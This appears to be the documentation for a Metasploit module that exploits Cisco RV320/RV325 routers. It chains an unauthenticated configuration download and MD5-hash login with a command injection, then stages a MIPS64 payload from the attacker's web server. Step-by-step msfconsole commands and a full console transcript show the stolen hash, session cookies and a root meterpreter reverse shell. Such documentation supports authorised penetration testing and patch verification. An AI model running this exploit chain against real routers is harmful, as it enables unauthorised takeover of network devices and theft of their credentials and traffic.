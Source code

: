 ## Introduction
This module automatically exploits two vulnerabilities to create an effectively
unauthenticated remote code execution on RV320 and RV325 routers.

The module will perform the following steps:

First the module will download the configuration. Then it will extract the MD5
password hash for the web interface user. The MD5 password hash is directly
accepted during login instead of the plain text password. With the MD5 hash the
module will authenticate to the web interface of the router and get a valid
authentication cookie. 

The second step is using the authentication cookie to
send an authenticated request to the web interface which exploits a command
injection vulnerability. The injection is limited to ~50 characters. Therefore,
the module uses a web server to stage a shell payload for the MIPS64
architecture of the router. Depending on the payload the module will result in
a shell or meterpreter session.

## Vulnerable Application:

Cisco Small Business Routers RV320 and RV325 with firmware versions between
1.4.2.15 and 14.2.20.

Link to vulnerable Firmware Version:
https://software.cisco.com/download/home/284005929/type/282465789/release/1.4.2.20?i=!pp


Links to Advisories:
Part 1 of the exploit (configuration download):
https://www.redteam-pentesting.de/en/advisories/rt-sa-2018-002/-cisco-rv320-unauthenticated-configuration-export

Part 2 of the exploit (command injection in web interface):
https://www.redteam-pentesting.de/en/advisories/rt-sa-2018-004/-cisco-rv320-command-injection

Advisories by vendor:
https://tools.cisco.com/security/center/content/CiscoSecurityAdvisory/cisco-sa-20190123-rv-info
https://tools.cisco.com/security/center/content/CiscoSecurityAdvisory/cisco-sa-20190123-rv-inject

## Options

**RHOSTS**

Configure the remote vulnerable system.

**RPORT**

Configure the TCP port of the HTTP/HTTPS management web interface.

**USE_SSL**

This flag controls whether the remote management web interface is accessible
via HTTPS or not. Should be false for HTTP and true for HTTPS.

**PAYLOAD**

Configure the Metasploit payload that you want to stage. Must be for MIPS64
arch.  Set payload Options accordingly.

**SRVHOST**

The module stages the payload via a web server. This is the binding interface
IP. Default can be set to 0.0.0.0. 

**HTTPDelay**

This configures how long the module should wait for the incoming HTTP
connection to the HTTP stager.

## Verification Steps

1. Have exploitable RV320 or RV325 router (exampe IP: 192.168.1.1):
2. Start `msfconsole`:
3. Do:  ```use exploit/linux/http/cisco_rv32x_rce```
4. Do: ```set RHOSTS 192.168.1.1```
5. Do: ```set payload linux/mips64/meterpreter_reverse_tcp``` (Set the MIPS64 payload you want to use)
6. Do: ```set LHOST 192.168.1.2``` (Setting your own IP here, example: 192.168.1.2)
7. Do: ```set RPORT 8007``` (Set the remote Port on which the router web interface is accessible)
8. Do: ```run```
9. Gives you a privileged (uid=0) shell or in the example a meterpreter session.


## Scenarios

Exploiting a vulnerable RV320 router with publicly accessible HTTPS web
interface on TCP port 443: 
```
msf exploit(linux/http/cisco_rv32x_rce) > set RHOSTS 192.168.1.1
msf exploit(linux/http/cisco_rv32x_rce) > set payload linux/mips64/meterpreter_reverse_tcp
msf exploit(linux/http/cisco_rv32x_rce) > set LHOST 192.168.1.2
msf exploit(linux/http/cisco_rv32x_rce) > set RPORT 443
msf exploit(linux/http/cisco_rv32x_rce) > set USE_SSL true
msf exploit(linux/http/cisco_rv32x_rce) > run
```

Demo example output for the module:
```
msf > use exploit/linux/http/cisco_rv32x_rce 
msf exploit(linux/http/cisco_rv32x_rce) > show options

Module options (exploit/linux/http/cisco_rv32x_rce):

   Name       Current Setting  Required  Description
   ----       ---------------  --------  -----------
   HTTPDELAY  15               yes       Time that the HTTP Server will wait for the payload request
   Proxies                     no        A proxy chain of format type:host:port[,type:host:port][...]
   RHOSTS                      yes       The target address range or CIDR identifier
   RPORT      8007             yes       The target port (TCP)
   SRVHOST    0.0.0.0          yes       The local host to listen on. This must be an address on the local machine or 0.0.0.0
   SRVPORT    8080             yes       The local port to listen on.
   URIPATH    /                yes       The path for the stager. Keep set to default! (We are limited to 50 chars for the initial command.)
   USE_SSL    false            no        Negotiate SSL/TLS for outgoing connections
   VHOST                       no        HTTP server virtual host


Exploit target:

   Id  Name
   --  ----
   0   LINUX MIPS64

msf exploit(linux/http/cisco_rv32x_rce) > set RHOSTS 192.168.1.1
RHOSTS => 192.168.1.1
msf exploit(linux/http/cisco_rv32x_rce) > set payload linux/mips64/meterpreter_reverse_tcp
payload => linux/mips64/meterpreter_reverse_tcp
msf exploit(linux/http/cisco_rv32x_rce) > set LHOST 192.168.1.2
LHOST => 192.168.1.2
msf exploit(linux/http/cisco_rv32x_rce) > set RPORT 443
RPORT => 443
msf exploit(linux/http/cisco_rv32x_rce) > set USE_SSL true
USE_SSL => true
msf exploit(linux/http/cisco_rv32x_rce) > run

[*] Started reverse TCP handler on 192.168.1.2:4444 
[*] Using URL: http://0.0.0.0:8080/
[*] Local IP: http://192.168.1.2:8080/
[*] Server started.
[*] Downloading configuration from 192.168.1.1:443
[*] Using SSL connection to router.
[*] Successfully downloaded config
[*] Got MD5-Hash: dfead10390e560aea745ccba53e044ed
[*] Logging in as user cisco using password hash.
[*] Using default auth_key 1964300002
[*] Successfully logged in as user cisco.
[*] Got cookies: mlap=RGVmYXVsdDE6Ojo6Y2lzY28=;
[*] Sending payload. Staging via http://192.168.1.2:8080/.
[*] 192.168.1.1:443 - Payload request received: /
[*] Waiting for stager connection timed out. Try increasing the delay.
[*] Meterpreter session 1 opened (192.168.1.2:4444 -> 192.168.1.1:48580) at 2019-03-14 10:00:00 +0100
[*] Server stopped.

meterpreter > getuid
Server username: uid=0, gid=99, euid=0, egid=99
```
